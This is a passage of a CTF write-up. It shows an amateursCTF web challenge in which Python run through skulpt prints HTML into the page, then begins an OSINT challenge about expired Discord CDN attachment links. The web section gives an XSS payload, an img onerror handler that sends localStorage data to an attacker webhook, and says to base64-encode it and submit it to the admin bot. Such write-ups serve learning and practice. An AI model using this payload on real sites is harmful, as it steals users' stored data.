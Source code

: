 So the point is skulpt runs a python code and compiles into javascript. Here is a example:

![image](hhttps://i.ibb.co/8rKVVqj/image-2024-04-13-113444566.png)

Total 165 lines to Javascript for just a simple `print("hello world")`. Sounds crazy lul. But the point is that it runs a python code and shows the output using pre element to display the results. And they also give the bot (typical XSS challenge). So what if we print something like `<script>alert()</script>` ?

![image](https://i.ibb.co/TBYbW2J/image-2024-04-13-113453318.png)

But it not alert anything. It seems weird althought it show in elements. After search a bit i see [this](https://stackoverflow.com/questions/14158252/avoid-xss-with-an-html-tag-like-pre). It would be escaped because filter or sanitizer so just put `</pre>` in the begin right ? But it do not work even though i try to escape it. But wait, am i missing something ? Do i just only have tag `<script>` that raise XSS vuln ? How about `<img> , <iframe> , <svg>` tag ? 

![image](https://i.ibb.co/K5CP8hv/image-2024-04-13-113458993.png)

And yes it works so let just build xss payload. Payload: `print("<img src=x onerror=window.location.href='<YOUR WEBHOOK>?flag='+localStorage.getItem('flag')>")`
```javascript!=
document.addEventListener("DOMContentLoaded",function(ev){
    document.getElementById("yourcode").value = atob((new URLSearchParams(location.search)).get("code"));
    runit();
});
```
The last thing you need to do is encode your payload to base64 in put it with param code to send to admin.

![image](https://i.ibb.co/kMQC08n/image-2024-04-13-113507124.png)

Flag: `amateursCTF{i_l0v3_wh3n_y0u_can_imp0rt_xss_v3ct0r}`

### **10. osint/wumpus-leaks**

![image](https://i.ibb.co/48JDCDB/image-2024-04-13-113513868.png)

The challenge gives me a image looks like the flag is in that image. But it hide behind the msfrog. And they also give the channel id and the message id. And the image name `IMG_7276.jpg`. 

![image](https://i.ibb.co/bvdgYR2/image-2024-04-13-113519856.png)

The point is need to find the image that locate in `cdn.discordapp`. The url looks like `https://cdn.discordapp.com/attachments/1098086661847535719/1226012804150984754/IMG_7276.jpg`. But after a try and also brute around the number image it just shows `This content is no longer available.` so i read how discord store data and i found [this one](https://www.reddit.com/r/DataHoarder/comments/16zs1gt/cdndiscordapp_links_will_expire_breaking/). 

**Details about authentication parameters**

> ex: timestamp indicating when the attachment URL will expire, after which point you'd need to retrieve another URL (by doing something like retrieving a message via HTTP). More details to come about the length of time this will be by default.
> 
> is: timestamp indicating when the URL was issued
> 
> hm: unique signature that remains valid until ex.
